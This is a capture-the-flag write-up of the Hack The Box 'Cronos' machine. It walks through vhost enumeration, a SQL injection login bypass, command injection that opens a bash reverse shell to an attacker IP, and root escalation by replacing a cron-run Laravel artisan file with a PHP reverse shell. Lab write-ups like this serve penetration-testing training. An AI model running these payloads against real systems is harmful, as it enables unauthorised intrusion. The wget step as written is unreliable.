





Cronos
A Linux box rooted through vhost enumeration to a hidden admin panel, a SQL
injection authentication bypass, OS command injection for an initial foothold, and privilege
escalation via a root-owned Laravel artisan cron job.
Note: I have some key environment variables set that make my experience using Hack The Box much smoother in my opinion. Rather than typing out or remembering file paths or IPs.
┌──(kali㉿kali)-[~/htb/cronos]
└─$ echo $SUBS
/usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
┌──(kali㉿kali)-[~/htb/cronos]
└─$ echo $DIRS
/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
┌──(kali㉿kali)-[~/htb/cronos]
└─$ echo $IP
10.129.227.211
┌──(kali㉿kali)-[~/htb/cronos]
└─$ echo $DOMAIN
cronos.htbRecon
# Nmap 7.99 scan initiated Thu Oct 1 15:06:53 2026 as: /usr/lib/nmap/nmap -sCV -p- -T4 -o nmap.txt 10.129.227.211
Nmap scan report for cronos.htb (10.129.227.211)
Host is up (0.0080s latency).
Not shown: 65532 closed tcp ports (reset)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
| 256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_ 256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open domain ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid:
|_ bind.version: 9.10.3-P4-Ubuntu
80/tcp open http Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Cronos
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
# Nmap done at Thu Oct 1 15:07:23 2026 -- 1 IP address (1 host up) scanned in 29.92 secondsI see port 80 open so I add the IP to my /etc/hosts file so DNS resolves.

From here I am able to see that the site links to various Laravel related resources. Investigating these links shows that Laravel appears to be a PHP based web application framework.
Enumeration
I went a bit out of bounds here and used subdomain enumeration to find the admin subdomain rather than DNS zone transfer, which seems to have been intended.
┌──(kali㉿kali)-[~/htb/cronos]
└─$ gobuster vhost -u http://$DOMAIN -w $SUBS --append-domain
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://cronos.htb
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent: gobuster/3.8.2
[+] Timeout: 10s
[+] Append Domain: true
[+] Exclude Hostname Length: false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
admin.cronos.htb Status: 200 [Size: 1547]
Progress: 4989 / 4989 (100.00%)
===============================================================
Finished
===============================================================Foothold
Navigating to the admin page I am presented with a login form. After just reading about Laravel I wonder if this page is potentially vulnerable to SQL injection.
I ran through some standard SQL injection payloads till I found one that worked: ' or 1=1#

' or 1=1#From here I found a form that I found to be vulnerable to OS command injection.

Knowing that this was now executing commands on the host I went to establish a reverse shell on my attack machine.
8.8.8.8; bash -c 'bash -i >& /dev/tcp/10.10.15.219/9999 0>&1'
Privilege Escalation
Now as www-data I started to enumerate potential privilege escalation paths.
I found that we are able to read the user flag as www-data.
www-data@cronos:/home/noulis$ ls
user.txt
www-data@cronos:/home/noulis$ cat user.txt
[REDACTED]This indicated to me that I am most likely not going to have to escalate privileges again to noulis in order to get a root shell.
After some manual enumeration through common vectors like OS version, file permissions, and capabilities, I found an interesting cron job.
www-data@cronos:/home/noulis$ crontab -l; cat /etc/crontab
no crontab for www-data
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user command
17 * * * * root cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * * root php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
#The cron job that stands out to me is the one that will run artisan as root. Essentially we can just re-write this artisan file with a reverse shell and get root access.
To do that I first copied a PHP reverse shell payload into my current working directory on my attack box.
cp /usr/share/webshells/php/php-reverse-shell.php shell.phpI changed some key configurations in the payload to match my environment.
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.15.219'; // CHANGED THIS
$port = 7777; // CHANGED THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;From there I started a simple HTTP server on port 8000 so I could get the payload onto the target machine.
python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/)I started up my listener in anticipation for when the cron job ran the payload.
┌──(kali㉿kali)-[~]
└─$ penelope -p 7777
[+] Listening for reverse shells on 0.0.0.0:7777 -> 127.0.0.1 • 172.22.74.149 • 10.10.15.219On the target box I emptied the artisan file and got my payload from the HTTP server.
www-data@cronos:/var/www/laravel$ wget 10.10.15.219:8000/shell.php -o artisanThen I waited for a root shell.

Credentials
Within config.php I found some credentials, but these did not seem to equate to anything. It's
worth noting though for practice.
www-data@cronos:/var/www/admin$ cat config.php
<?php
define('DB_SERVER', 'localhost');
define('DB_USERNAME', 'admin');
define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
define('DB_DATABASE', 'admin');
$db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>Flags
www-data@cronos:/home/noulis$ cat user.txt
[REDACTED]
root@cronos:/# cat /root/root.txt
[REDACTED]Lessons Learned
What I enjoyed most about this box is its reliance on basic vulnerabilities. Initial access was not based on pre-written exploits or CVEs but rather enumeration, SQL injection and OS command injection. If you were not familiar with these concepts you may have struggled with this box. This box helped me sharpen my skills in establishing reverse shells and double checking syntax in key commands.